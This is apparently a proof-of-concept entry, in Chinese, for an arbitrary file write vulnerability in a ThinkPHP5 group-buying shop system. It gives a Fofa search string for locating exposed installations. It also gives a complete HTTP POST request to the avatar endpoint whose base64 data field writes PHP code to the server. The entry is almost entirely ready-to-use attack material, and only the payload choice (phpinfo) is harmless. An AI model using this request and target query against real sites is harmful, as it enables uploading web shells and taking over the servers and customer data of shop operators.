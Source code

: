 # 拼团零售商城系统前台任意文件写入漏洞

**ThinkPHP5 拼团拼购系统，支持热门商品，余额总览，红包分销，商品销售，购物车等功能，后台使用管理系统所构建；该漏洞利用需要普通用户登录权限**

## Fofa

```yaml
"/public/static/plugins/zepto/dist/zepto.js"
```

## poc

```yaml
POST /home/user/avatar HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 65
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=kplfq401bdcmql31vr7jp2s6ul; user_id=1; uname=%25E5%2588%2598%25E6%2580%25BB
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/home
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

base64=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==
```

![image-20240720125113160](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407201251370.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/ZjuanRwJzZvgJhJARdq1jg